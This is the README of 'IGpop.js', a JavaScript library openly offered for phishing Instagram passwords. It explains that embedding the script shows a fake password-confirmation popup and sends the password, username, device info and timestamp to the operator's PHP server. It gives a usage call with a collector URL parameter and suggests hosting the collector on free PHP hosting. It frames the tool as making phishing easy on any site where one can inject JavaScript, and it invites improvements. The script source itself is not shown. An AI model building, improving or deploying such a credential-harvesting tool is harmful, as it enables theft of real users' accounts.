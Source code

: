 # IGpopjs
Instagram Phishing made easy with Javascript. IGpop.js is a simple js file, when included into your webpage, prompts user to confirm Instagram Password.

With customised options available, this makes highly personalised page, and baits user into entering their password.

Password, date and time, device info and username is sent to the server.

# How to use?
Just include the IGpop.min.js into your web page and call IGpop() function with the vaild parameters when you are ready to show popup.
<code>IGpop("Profile Picture URL","User ID","pop","path.to/server.php?data=","Optional Callback Function Name");</code>
Instead of <i>pop</i>, you can use <i>full</i> and <i>Callback Function</i> can be omitted.

# Set Up Server
For sending the data to the server, we need following php file. Just host it on any free php hosting platform.

# Conclusion
This file makes easy to phish on any website where you have access to write Javascript.

# Contributions
Any contributions that make the script size smaller or any other advancements are welcome.
